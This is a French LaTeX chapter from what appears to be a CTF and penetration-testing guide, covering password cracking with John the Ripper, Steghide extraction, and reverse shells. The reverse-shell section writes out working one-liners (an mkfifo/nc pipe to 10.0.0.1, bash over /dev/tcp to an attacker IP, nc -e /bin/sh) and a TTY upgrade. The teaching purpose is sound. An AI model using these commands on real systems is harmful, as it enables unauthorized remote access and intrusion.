\chapter{L'intrusion dans le système cible}

Après avoir exploité les failles via les outils présentés dans la section précédente, il se pourrait que vous soyez dans l'un des cas suivants :

\begin{itemize}
    \item \textbf{Caractères hashés}
    \item \textbf{Image contenant un fichier caché}
    \item \textbf{Possibilité d'effectuer un reverse-shell}
\end{itemize}

Nous allons donc, pour chaque cas ci-dessus, vous expliquer les outils qui vous permettront d'avancer dans un CTF.

\section{Caractères hashés}

Après avoir exploité une faille SQL par exemple, il se pourrait que les mots de passes des utilisateurs soient hashés. C'est pourquoi nous allons vous présenter l'outil John The Ripper.

\subsection{John The Ripper}

\subsubsection{Définition}

John The Ripper ou plus communément, John, est un utilitaire multi-plateformes ayant pour principal objectif de casser des mots de passe. John est certainement le programme le plus utilisé pour la sécurité de mot de passe.
John a plusieurs fonctionnalités. En effet, dans un premier temps, il est capable de reconnaître un hash donné. Cette fonctionnalité pourra nous être utile lors de CTF pour savoir comment recoder une information modifiée par exemple. Ensuite, en fonction du hash qu’il a reconnu et des options qu’on lui a associé, John est capable de trouver un mot de passe associé à un utilisateur.
Nous allons donc nous pencher sur son fonctionnement.

\subsubsection{Fonctionnement}

Comme nous l’avons vu dans la partie de Dirb, il existe une différence entre une attaque par dictionnaire et une attaque par bruteforce. Ici, John a la possibilité de faire 4 différents types d’attaques que nous allons détailler.\\

 \textbf{Attaque via single mode}\\

Ce mode est le mode par défaut de cassage de mot de passe sur John. Cette attaque va tester tous les mots de passe basiques que nous avons l’habitude d’utiliser en fonction du nom d’utilisateur. Regardons un exemple très simple.
Nous allons hasher le mot de passe ‘ user1999 ‘ et ‘ salon ‘ pour les utilisateurs respectifs ‘ user1 ‘ et ‘ user2 ‘ via un site web.
Ensuite, nous allons enregistrer ceci dans un fichier texte sous ce format :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/john/format_txt.PNG}
  \caption{Format d'utilisation pour John}
  \label{fig:courbe-tikz}
\end{figure}

Nous pouvons à présent lancer John sans option en lui précisant juste le fichier à attaquer puis observer le résultat de l’attaque :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/john/affichage_mdp_single.PNG}
  \caption{John par défaut}
  \label{fig:courbe-tikz}
\end{figure}

Dans un premier temps, on retrouve la première phase de John qui est l’analyse du hash. Il détecte dans notre cas que les mots de passe sont hashés en SHA1.
Il va alors essayer de reconnaître des mots de passe qu’il avait déjà trouvé à partir de cet hôte et des mots de passe ressemblants à l’utilisateur.
Puis dans une seconde partie, John n’a pas su trouver le mot de passe ‘salon’ associé à user2. Il a dû donc procéder à une attaque par mode incrémental. Pour éviter cela, on aurait pu forcer John à rester sur le single mode avec l'option ' --single '.\\


 \textbf{Attaque par dictionnaire}\\

Comme nous l’avons vu avec l’outil Dirb, qui fait une attaque par dictionnaire, le principe sera ici le même. John va se baser sur un dictionnaire afin de trouver le mot de passe. En effet, le dictionnaire va être utilisé en fonction des règles que John aura reçues. Ainsi, si le mot de passe correspond aux règles combinées au dictionnaire, John pourra nous donner le mot de passe.
Nous allons essayer ce concept avec le dictionnaire ‘rockyou.txt’ fourni par Kali :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/Dico.PNG}
  \caption{Attaque avec dictionnaire}
  \label{fig:courbe-tikz}
\end{figure}

\vspace{0,8cm}

L’attaque a été très rapide car le dictionnaire fourni par Kali est très complet.
Nous pouvons maintenant voir l’attaque via le mode incrémental.\\

 \textbf{Attaque via le mode incrémental}\\

Le mode incrémental est un mode permettant de tester toutes les combinaisons possibles afin d'arriver à nos fins. C’est le moyen ultime pour obtenir un mot de passe car il fonctionnera toujours. Mais il ne faudra pas être pressé car, plus le mot de passe sera long, plus ce mode prendra du temps.
Nous allons rajouter un ‘ user3 ‘ avec pour mot de passe ‘ velizy78 ’ pour que le mode simple soit incapable de le trouver. Nous allons juste indiquer à John d’utiliser directement le mode incrémental sans option.
Cependant, après plusieurs minutes, John n’avait pas trouvé et avait crashé.
Nous allons donc faciliter la recherche de John en lui annonçant que nous savons quels sont les types de caractères à rechercher. En effet, le mode incrémental a des options que nous allons observer.
L’option ‘ alpha ‘ va nous permettre de rechercher les mots de passe avec les lettres du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_alpha.PNG}
  \caption{Attaque en mode incrémental alphabet}
  \label{fig:courbe-tikz}
\end{figure}

L’option "digit" va nous permettre de rechercher les mots de passe avec les chiffres du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_digits.PNG}
  \caption{Attaque en mode incrémental chiffre}
  \label{fig:courbe-tikz}
\end{figure}

L’option ‘ ASCII ‘ va nous permettre d’utiliser l'alphabet ASCII qui regroupe presque la totalité du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_ASCII.PNG}
  \caption{Attaque en mode incrémental ASCII}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir, plus le champ de recherche est important, plus le mot de passe prend du temps à être trouvé.\\

Cet outil, très complet, vous permettra donc de résoudre des CTFs dont la finalité est de casser un hash.


\section{Image contenant un fichier caché}

A la suite de l'exploitation d'une failles via Metasploit ou encore Burpsuite, il se pourrait que vous puissiez télécharger une image. Peu banal mais efficace, l'image pourrait renfermer un fichier contenant peut être des identifiants et mots de passes. C'est pour cette raison que nous allons vous présenter l'outil Steghide.

\subsection{Steghide}

\subsubsection{Définition}

Steghide est un programme de stéganographie permettant de masquer des données dans des fichiers image et audio. Il présente plusieurs fonctionnalités :\\
-        Compression des données incorporées.\\
-        Cryptage des données incorporées.\\
-        Incorporation d’une somme de contrôle pour vérifier l’intégrité des données extraites.\\
-        Prise en charge des fichiers JPEG, BMP, WAV, AU.\\
Les fichiers JPEG et BMP correspondent à des fichiers image tandis que les fichiers WAV et AU correspondent à des fichiers audio. \\
Cet outil est sous licence GNU General Public License (GPL), ce qui veut dire qu’il est possible d’effectuer des modifications et en faire la distribution de ce programme tant qu’il rentre dans les conditions de la GPL.
On va d’abord voir comment intégrer un fichier texte dans un fichier image. Bien évidemment, il faut créer au préalable un fichier texte contenant un message.

\subsubsection{Fonctionnement}

Pour intégrer notre fichier texte [fichier].txt, il faut entrer la commande :

\begin{center}
    \textbf{steghide embed -cf [fichier].jpeg -ef [fichier].txt}
\end{center}

On ajoute ensuite un mot de passe pour permettre l’accès à ce fichier caché. L’option -ef (--embedfile) permet l’intégration du fichier désiré dans le fichier ciblé. L’option -cf (--coverfile) permet de spécifier le nom du fichier à incorporer.\\ 
Bien sûr, on peut mettre ce que l'on veut comme type de texte. Par exemple, dans notre attaque Kuya:1, lors de l'extraction d'un fichier caché dans une image, on a pu retrouver un fichier texte affichant un code de type "Brain fuck":\\


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG3.png}
  \caption{Code "Brain Fuck"}
  \label{fig:courbe-tikz}
\end{figure}

C'est un type de code original à intégrer pour rendre la capture du flag un peu plus amusante et plus complexe. Pour vérifier que le fichier cible a bien incorporé le message secret, on peut taper la commande visible en \textbf{figure \ref{fig:steghideinfo}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG2.png}
  \caption{steghide info [fichier].jpeg}
  \label{fig:steghideinfo}
\end{figure}

Comme on peut le voir, le fichier picture.jpg est incorporé dans un message crypté nommé secret.txt.
Maintenant, on va extraire le fichier caché avec la commande \textbf{figure \ref{fig:steghideextract}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG1.png}
  \caption{steghide extract -sf [fichier].txt}
  \label{fig:steghideextract}
\end{figure}

\vspace{4cm}
L’option -sf (--stegofile) permet de spécifier le “stego file” (fichier contenant les informations incorporées).En affichant ensuite le contenu du fichier texte dont on a extrait le message caché, on peut donc enfin le visualiser. \\

En conclusion, cet outil simple est pratique pour récupérer des messages cachés dans des fichiers pris en charge. Cependant, son niveau d’utilisation reste assez restreint car il ne prend en charge que très peu de formats de fichiers. Steghide sera donc généralement utilisé en début et fin d’attaque CTF car il peut contenir des indications comme des résolutions de flags.


\section{Possibilité d'effectuer un reverse-shell}

\subsection{Reverse-shell}

\subsubsection{Définition}

Le reverse-shell qui signifie shell inversé est le moyen le plus fiable d’accéder aux données de la cible et de devenir administrateur de cette dernière. Cette technique consiste à faire parvenir au hacker un shell via un serveur ouvert et ainsi contourner toutes les sécurités mises en place. Cependant, avant de comprendre comment fonctionne un reverse-shell, il va nous falloir étudier un shell.\\
Comme on peut le voir sur les systèmes d’exploitations installés sans GUI (Graphical User Interface), notre seul moyen de communiquer avec la machine est un invite de commande. Cet interpréteur de commande nous permet d’exécuter des commandes qui sont elles mêmes des scripts capables d’afficher le résultat de la commande saisie à l’écran. Cet interpréteur est donc un programme que l’on nomme shell. Il ne faut pas confondre le shell avec le kernel qui est le noyau du système d’exploitation. Le shell permet donc à l’utilisateur d’exploiter ce noyau à travers des lignes de commandes.
Nous pouvons alors synthétiser ceci en disant que le shell permet à l‘utilisateur de demander quelque chose à son noyau.
Nous pouvons, grâce à cette définition comprendre le fonctionnement du reverse-shell soit du shell-inversé.\\
Le reverse-shell consiste à inverser les commandes de sorties et d'entrées du shell afin que ce soit au noyau de nous demander des informations pour afficher des résultats, et non l’inverse.
Ainsi, les requêtes seront envoyées de la machine cible, passeront le firewall s’il existe, et arriveront à notre machine. Nous aurons alors la possibilité, comme sur un formulaire web, de remplir nos informations et de les renvoyer au serveur comme une simple réponse avec une très grande conséquence.
Ce sera donc par ce moyen que nous arriverons à contourner les sécurités et nous introduire dans le système cible. Voici un schéma explicant le fonctionnement d'un reverse-shell:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Reverse_shell-meterpreter/reverse-shell.PNG}
  \caption{Mise en place d'un reverse-shell}
  \label{fig:courbe-tikz}
\end{figure}

Maintenant que nous avons introduit le concept du reverse-shell, il est venu le temps de présenter l’aspect technique de ce dernier.

\subsubsection{Fonctionnement}

 \textbf{Les étapes d'un reverse-shell}\\

Lors d’une attaque sur CTF ou lors d’une réelle séance de hacking, il existe plusieurs grandes étapes obligatoires à passer comme vous l’avez vu lors des chapitres précédents. La détection et l’exploitation d’une faille va en général nous permettre d’écrire dans le langage informatique exploité. Il est important de savoir que tous les langages informatiques se doivent de parler avec le kernel afin de fonctionner. Il est donc essentiel à un langage de pouvoir exploiter des lignes de commandes. Nous passerons donc principalement par cette voie pour ouvrir notre port TCP ou UDP sur la machine cible. Cependant, pour qu’une connexion se mette en place et que le socket fonctionne, il est important que notre machine écoute sur le port que nous allons ouvrir. Ce pourquoi nous allons introduire le logiciel Netcat.\\

 \textbf{Netcat}\\

Netcat est un logiciel réseau permettant l’ouverture de ports et le scan de ports en TCP et UDP. Surnommé “Le couteau suisse TCP”,  cet utilitaire polyvalent et discret est utilisé en arrière plan d’autres applications afin d’effectuer des recherches de ports par exemple. Cependant, son  principale rôle est l’ouverture de socket entre un client et un serveur.
Un socket est la combinaison de l’adresse IP et du port permettant à un programme de communiquer avec autre un programme, distant, sur une machine spécifique. 
Donc Netcat va nous permettre de créer un socket ou d’écouter sur l’un de nos ports. C’est la deuxième option qui va nous intéresser dans un premier temps, lors d’un reverse-shell. En effet, Netcat va pouvoir écouter ce que le shell cible va lui renvoyer sur un port bien spécifique :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.6\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/netcat_lvp.PNG}
  \caption{Ecoute de port Netcat}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ait pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsubsection{Différents types de reverse-shell}

 \textbf{Netcat-reverse}\\

Imaginons qu’une faille nous permet d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de port comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/reverse_netcat.PNG}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/tty_importation_python.PNG}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !\\

 \textbf{Bash TCP}\\

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{lstlisting}
    bash -i >& /dev/tcp/ip attaquant/port écoute 0>&1
\end{lstlisting}

%\begin{center}
%    \textbf{bash -i >\& /dev/tcp/ip attaquant/port écoute 0>\&1}
%\end{center}

Voici un cas d’application réel de ce reverse :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Bash/localhost_bash_tcp_basique.PNG}
  \caption{Reverse Bash localhost}
  \label{fig:courbe-tikz}
\end{figure}

On peut voir ici qu’en appliquant le reverse bash TCP sur la cible, nous avons pu nous connecter grâce à l’écoute de Netcat au shell ciblé.\\
Mais que signifie cette commande rentrée dans la machine cible ?\\
L’option ‘-i>\&’ va nous permettre de retourner un bash interactif soit être en mode connecté.\\
‘/dev/tcp/ip attaquant/port écoute’ va annoncer à la cible à qui envoyer ce bash interactif et sur quel port à travers un socket TCP.\\
\verb+0>&1+ va nous permettre d’inverser les entrées et les sorties et ainsi créer le reverse-shell.
Nous nous sommes ainsi introduits via le protocole TCP en bash dans la machine cible.
